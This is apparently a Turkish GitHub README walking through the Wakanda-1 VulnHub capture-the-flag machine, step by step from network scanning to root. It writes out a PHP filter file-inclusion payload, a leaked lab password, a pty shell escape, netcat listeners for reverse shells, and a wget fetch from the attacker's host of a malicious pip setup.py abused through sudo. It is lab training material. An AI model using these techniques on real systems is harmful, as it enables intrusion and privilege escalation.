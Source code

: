 ## Wakanda-1-YolHaritasi
Çözdüğüm ctf'leri unutmamak amacıyla buraya adımlar şeklinde not alıyorum. Bu ctf'i [*vulnhubdan*](https://www.vulnhub.com/entry/wakanda-1,251/) bilgisayarınıza indirip virtualbox'ınıza kurabilirsiniz. Bu ctf'de elde ettiğimiz önemli bilgileri not.txt dosyasına kaydedeceğiz. Virtualbox'a kurduktan sonra makineyi başlatarak ctf'i çözmeye başlayabiliriz.
### *Adım 1:*
İlk olarak tüm ctf'lerde olduğu gibi zafiyetli makinenin açık portlarına bakarak işe başlamayı düşündüm. Lakin nmap taraması yapmak için bir ip adresine ihtiyacımız var. Zafiyetli makine ile aynı ağda olduğumuz için `netdiscover -r 10.0.2.0/24` çalıştırarak ağımdaki ip'leri aşağıdaki gibi elde edebiliriz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/netdiscover.png)

Eğer bağlantı arayüzünüz eth0 değilde wlan0 ise netdiscover komutunun aralığını (range) ona göre ayarlamanız gerekir.
Zafiyetli makinenin ip'sini yukarıdaki gibi elde ettikten sonra `nmap -v -sS -A -T4 <Hedef IP>` komutunu çalıştrarak açık portları görüntüleyebiliriz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/nmap.png)

Açık portlara baktığımızda ilk dikkatimizi çeken şey 80 portu olyor. Bir sonraki adımda bu websiteyi mutlaka ziyaret etmemiz gerekir. Burada 3333 portunda ssh açık olduğunu görebiliyoruz. Eğer 80 portunda bir şey çıkmazsa makineye ssh kullanarak varsayılan şifre ve kullanıcılar bağlanmaya çalışabiliriz. 111 portunda da başka bir hizmetin açık olduğunu görüyoruz ama bunu araştırmadan önce 2. adıma geçelim ve web zafiyeti olup olmadığına bakalım.
### *Adım 2:*
Siteye girdiğimizde bizi basit bir ekran karşılıyor. Bu ekranda dikkatimizi çeken ilk şey en altta bulunan mamadou kullanıcı ismi oluyor. Bu isme muhtemelen ssh bağlantısı sırasında ihtiyacımız olacaktır. O yüzden not dosyamıza bunu not ediyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/username.png)

Bu site için gobuster komutunu ve dirb'ü ayrı ayrı çalıştırabiliriz nitekim ben çalıştırdım ve kayda değer bir sonuç alamadım. Belki sayfa kaynağında bir şey buluruz 
ümidiyle bakıyoruz. HTML dökümanını incelediğimde bir yorum satırı dikkatimi çekti burada bir link yönlendirmesi bulunuyor:

`<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->`

Burada ?lang=fr kısmını site linkinin sonuna eklediğimizde sitenin fransızca olduğunu görüyoruz. Site adres kısmında daha önce yazılmış bir php dosyası kulanıldığı çıkarımını yapabiliriz. Bu çıkarıma göre linkin ?lang= sonraki kısmından sistem dosyalarına ulaşma denemeleri yapıyoruz fakat sonuç alamıyoruz. Bu denemeleri nasıl yapacağımızı ve denemeler sonuç vermezse neler yapabileceğimizigörmek için * [bu linkten](https://book.hacktricks.xyz/pentesting-web/file-inclusion) *yararlanabiliriz.
Bu sitede yaptığımız okuma sonucu farklı bir index.php dosyasına erişmek ve php filter'ı atlatmak için ?lang= sonrasına sitede yer alan base64 ile ilgili bir link ekliyoruz:

`php://filter/convert.base64-encode/resource=index` 

Sayfa kaynağına giderek base64 ile şifrelenmiş metni alıyoruz ve bir [online decoder](https://www.base64decode.org/) yardımıyla metnideşifre ediyoruz. Ulaştığımız metinde bir şifre kısmı görüyoruz. Elde ettiğimiz şifreyi not dosyamıza ekliyoruz. Artık bir kullanıcı ismine ve şifreye sahibiz. Bununla beraber ssh portu da açık olduğunu biliyoruz. Kullanıcı adımız mamadou şifremiz 'Niamey4Ever227!!!'. Bağlantı başarılı!!
### * Adım 3: *
ssh ile başarıyla bağlandık ama karşımıza çıkan shell içerisinde linux komutlarını çalıştırdığımızda hata aldığımızı görüyoruz. Hatayı dikkatle incelediğimizde ve farklı denemeler yaptığımızda bunun python hataları olduğunu anlayabiliyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/ssh.png)

Burada python çalıştırabildiğimize göre python ile kabuk oluşturabiliriz. Kabuk için 

`import pty; pty.spawn("/bin/bash")`

komutunu çalıştırıyoruz. Artık başta çalıştırmayı denediğimiz tüm komutları çalıştırabiliriz. flag1.txt'yi aşağıdaki gibi elde ediyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/flag.png)

Bu adımda hemen flag2.txt dosyasının nerede olduğunu öğrnelim:

`locate flag2.txt`

Bu komutu çalıştırdığımızda `/home/devops/flag2.txt` sonucunu elde ediyoruz. cat komutu ile bu dosyayı okumaya çalıştığımızda buna iznimiz olmadığı bilgisini alıyoruz.
Yani bu dosyayı okumak için devops kullanıcısı olmamız gerekiyor. Devops kullanıcısı olmak için çeşitli araçlarla zafiyet araması yapmadn önce * find * komutu ile devops kullanıcısının hangi dosyalarına erişebildiğimize bakmak için şu komutu çalıştıralım.

`find / -username devops`

Bu komutu çalıştırdığımızda uzun bir liste elde ediyoruz ama listenin en başı dikkatimizi çekiyor.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/find.png)

Burada bir python dosyası ve test isimli bir metin dosyası olduğunu görüyoruz. Bunları cat ile okuyoruz:

Python dosyası
`open('/tmp/test','w').write('test')`

Test dosyası 
`test`

Bu iki dosyaya bakarak python dosyasının daha önce çalıştırıldığını anlayabiliriz. Bunu bir cron dosyası yardımıyla belirli aralıklarla yaptığıda muhtemel olan diğer çıkarım. Bir sonraki adımda python dosyasını kullanacağız.
### *Adım 4:*
Bu adımda python ile reverse shell oluşturacağız. ls -la ile baktığımızda python dosyasına yazma iznine sahip olduğumuzu görebiliriz. [Reverse shell için](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) sitesinde yer alan python reverse shell kodlarını kullanabiliriz. Bu sitede komut satırı için hazırlanan komutu python debug işlmine uygun hale getirerek dosyaya yazalım. reverse shellde ip kısmına kalimizin ip'sini yazarak dosyayı kaydedelim. Başka bir terminalde netcat çalıştıralım:

`nc -nvlp 1234`

Bir shell elde ettik daha önceden dizini bildiğimiz falg2.txt'yi okuyalım:

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/flag2.png)

Şimdi sırada root.txt dosyasını bulmak var.
### *Adım 5:*
root.txt dosyasına erişmek için yetki yükseltmesi yapmamız gerektiğini biliyoruz. Yetki yükseltmesi için neler yapabileceğimizi düşünelim. Ama ondan önce yetki yükseltmeden yani şifre girmeden neler yapabileceğimize bakalım. Bunun için `sudo -l` komutunu çalıştırıyoruz. İlginç bir drurumla karşılaşıyoruz: 

`User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip`
    
İnternette yaptığımız kısa bir aramada [bir github reposu buluyoruz](https://github.com/0x00-0x00/FakePip). Burada yine bir reverse shell bulduğumuzu söyleyebiliriz.
Bunu ssh ile bağlandığımız makineye nasıl indirebileceğimiz bulmalıyız. Makinede git komutlarının çalışmadığını deneyerek anlayabiliriz. onun dışında wget komutunun çalışmasında bir sıkıntı olmadığını görüyoruz. Ama inen dosyanın .git uzantılı olması da bizi çıkmaza sokuyor. Bu dosyayı kendi sunucumuz üzerinden wget komutu ile makineye yollamak en doğru çözüm olacağını düşünüyoruz. Bu yüzden ilk olarak repo'yu kendi kalimize klonluyoruz. setup.py dosyası içerisindeki localhost yerine kendi ip adresimizi yazıyoruz dosyayı kaydederek ssh ile atılmaya hazır duruma geliyoruz. (port numarasını da unutmuyoruz 13372) Sonrasında dosyayı var/www/html içerisine atıyoruz `cp setup.py /var/www/html` ve apache sunucumuzu başlatıyoruz `service apache2 start'. Şimdi devops olarak bulunduğumuz makinede aşağıdaki komutu çalıştırabiliriz.

`wget http://10.0.2.14/setup.py`

setup.py dosyamız makineye başarıyla indi buradan sonra yetki yükseltmek çocuk oyuncağı. İlk ola 13372 portunu daha önce yaptığımız gibi dinlemeya başlayacağız. Sonra pip kullanarak setup.py dosyasını çalıştıracağız.

`nc -nvlp 13372`

`sudo /usr/bin/pip install . --upgrade --force-reinstall`

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/root.png)

Okuduğunuz için Teşekkürler :)
